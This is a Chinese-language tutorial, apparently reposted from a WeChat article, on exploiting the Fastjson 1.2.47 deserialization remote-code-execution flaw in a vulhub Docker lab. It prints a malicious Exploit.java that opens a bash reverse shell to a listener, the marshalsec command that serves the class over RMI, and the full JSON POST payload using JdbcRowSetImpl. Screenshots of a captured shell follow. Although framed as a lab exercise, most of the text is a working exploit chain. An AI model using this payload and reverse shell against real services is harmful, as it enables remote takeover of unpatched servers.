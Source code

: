 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/6eaYIiI-tJq1AoFsHudMyA)

环境搭建:

Fastjson 靶机 ip：192.168.21.10 （假设公网）

Kali 开启 rmi 服务并 nc 监听 ip ：192.168.10.12（假设公网）

Win 服务器开启 http 服务存放 Exploit.class 文件 ip：192.168.21.11 （假设公网）

使用 docker 和 vulhub；

安装好后使用进入到 /vulhub/fastjson/1.2.47-rce/ 中

使用 sudo docker-compose up -d 启动环境

![](https://mmbiz.qpic.cn/mmbiz_png/bXN3icEpm2Cn0y1X24gCLelLGW3OfFLfib7qFyrAVKibGPRmkV65Nbda9vEtc3uGySOYcr3ftAVzp6xTia1iciaH08RA/640?wx_fmt=png)

访问下本地的 8090 端口查看是否启动

![](https://mmbiz.qpic.cn/mmbiz_png/bXN3icEpm2Cn0y1X24gCLelLGW3OfFLfibXo1yB3Yic5CmDgBHQ9UYicwYcPu5gibbK4s8drAzVCtaMxZQtljWTL8JA/640?wx_fmt=png)

出现这个说明成功启动 fastjson 环境了

然后先去攻击机编译一个恶意的 java 的 class 文件为之后做铺垫

新添加一个 Exploit.java 文件

Exploit.java 的内容为

```
import java.lang.Runtime;import java.lang.Process;public class Exploit {   static {       try {           Runtime r = Runtime.getRuntime();           Process p = r.exec(new String[]{"/bin/bash","-c","bash -i >& /dev/tcp/192.168.21.12/5555 0>&1"});           p.waitFor();       } catch (Exception e) {           // do nothing       }   }}
```

![](https://mmbiz.qpic.cn/mmbiz_png/bXN3icEpm2Cn0y1X24gCLelLGW3OfFLfibqwXwG6Eo6CQ9cCKWO1C3POJ0TJUrpZRWIqTcOm1kS7Z3gerEt8fcWw/640?wx_fmt=png)

箭头那里修改自己的 nc 要监听的 ip 和端口

然后编译成 class 文件

命令：javac Exploit.java

生成了 Exploit.class

![](https://mmbiz.qpic.cn/mmbiz_png/bXN3icEpm2Cn0y1X24gCLelLGW3OfFLfibm04dGuIdxR8Y3joF2qGmevgRJoibR5FFI1RwLZuF6YDB01OUQYbdEhQ/640?wx_fmt=png)

（注意：javac 版本最好与目标服务器接近，否则目标服务器可能无法解析 class 文件，会报错，建议 vulhub 搭建的话使用 Java 1.8.0_101 版本去编译）

然后开一起一个 http 服务，可以访问 class 文件并可以下载就可以了

![](https://mmbiz.qpic.cn/mmbiz_png/bXN3icEpm2Cn0y1X24gCLelLGW3OfFLfibrUtT6dia0ickrnic1G54nAQZicLE60Q3dJwwLYsIicCdSzKxDuUQEN0ic7DQ/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/bXN3icEpm2Cn0y1X24gCLelLGW3OfFLfibOGe147l3aCsgM0ICHw0j4gtpHyxP3ERweYlOczGv4Q1DeyjsIcpj6w/640?wx_fmt=png)

接着在自己的 vps 里开启 rmi 或者 ldap 服务  

下载地址  https://github.com/mbechler/marshalsec

可以使用 git clone https://github.com/mbechler/marshalsec.git

也可以直接下载拖进去

![](https://mmbiz.qpic.cn/mmbiz_png/bXN3icEpm2Cn0y1X24gCLelLGW3OfFLfibib2iaicHjhQS0rqTWa5r6yZWlqzJlJcsHqdS06KHLIC500vdRxeHoySNA/640?wx_fmt=png)

下载好后然后解压 sudo unzip marshalsec-master.zip

进入到这个目录里执行 sudo mvn clean package -DskipTests 进行编译

![](https://mmbiz.qpic.cn/mmbiz_png/bXN3icEpm2Cn0y1X24gCLelLGW3OfFLfibS5z1gndcZ0gNljJpz9H1cxxgC04VooiafUAVal6eu7hWW1lKwIW4rNg/640?wx_fmt=png)

编译好后会生成一个 target 文件，进入这个目录

![](https://mmbiz.qpic.cn/mmbiz_png/bXN3icEpm2Cn0y1X24gCLelLGW3OfFLfibXykytia6yu3A36SAeNbypmmFAssYHFdm1gOePSHKPNjUeiaJntXiaiak1Q/640?wx_fmt=png)

需要使用到这个文件  

![](https://mmbiz.qpic.cn/mmbiz_png/bXN3icEpm2Cn0y1X24gCLelLGW3OfFLfibBaSXbFre7Il1kkN1f14DyPpQfkYp8O2icrCppYRESLcV4F9KvKYxibmQ/640?wx_fmt=png)

然后使用

```
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.RMIRefServer "http://192.168.21.11/exp/#Exploit" 9999
```

开启 RMI 服务

![](https://mmbiz.qpic.cn/mmbiz_png/bXN3icEpm2Cn0y1X24gCLelLGW3OfFLfibZRLHJhnajvrAu15J8cvf9hxTrg4gEaDqlAQWQuwwQibqhWm50lr62Ng/640?wx_fmt=png)

然后开启 nc 监听

![](https://mmbiz.qpic.cn/mmbiz_png/bXN3icEpm2Cn0y1X24gCLelLGW3OfFLfibbCRcVNjibMw5LicAStzk4mGQFlv8rE4DytNMSCyNMb0kzYtJXSp87RjQ/640?wx_fmt=png)

接下来然后这个页面进行抓包

![](https://mmbiz.qpic.cn/mmbiz_png/bXN3icEpm2Cn0y1X24gCLelLGW3OfFLfibluiarluG0LeSjRQvz6QLm2mY8dJy3c1Bialibc51mzgPdK8rvbZxrznDg/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/bXN3icEpm2Cn0y1X24gCLelLGW3OfFLfibh1vMKLoJeMpyOl3JVsAicWKPSqpibDr9NayvdtzWA9YjMkr4coCNlHyQ/640?wx_fmt=png)

然后将 GET 改为 POST 然后添加 1.2.47 的 payload

```
POST / HTTP/1.1Host: 192.168.21.10:8090Accept-Encoding: gzip, deflateAccept: */*Accept-Language: enUser-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)Connection: closeContent-Type: application/jsonContent-Length: 263{    "a":{        "@type":"java.lang.Class",        "val":"com.sun.rowset.JdbcRowSetImpl"    },    "b":{        "@type":"com.sun.rowset.JdbcRowSetImpl",        "dataSourceName":"rmi://192.168.21.12:9999/Exploit",        "autoCommit":true    }}
```

![](https://mmbiz.qpic.cn/mmbiz_png/bXN3icEpm2Cn0y1X24gCLelLGW3OfFLfibia7wU2AAicnUOldKImxxtYV5KxjibSqxfN6K3XJ3CiaXqkMHdDdpftR4rA/640?wx_fmt=png)

箭头指向的是 kali 机器开启 rmi 的地址

然后 rmi 服务就会收到请求去加载 Exploit.class

![](https://mmbiz.qpic.cn/mmbiz_png/bXN3icEpm2Cn0y1X24gCLelLGW3OfFLfibx8hiccPRPEJYorcEz1PibTboO5h7Yhia6ulvO43PEr8XeQ399WWuv5FKA/640?wx_fmt=png)

成功反弹到了 nc 上

![](https://mmbiz.qpic.cn/mmbiz_png/bXN3icEpm2Cn0y1X24gCLelLGW3OfFLfibOXvQYuOO7k1Mvm7WHYtWsgKjcQsPkUicI5rzibMVibia9YvicQtqLwXicT8w/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/bXN3icEpm2ClpO2mPkroibfba4Cv7icY1I5qwSRibnmmefyAIwbWqmiba9G61ssmppc4nVIGLicFxgTnlqvuf2sic2Niag/640?wx_fmt=png)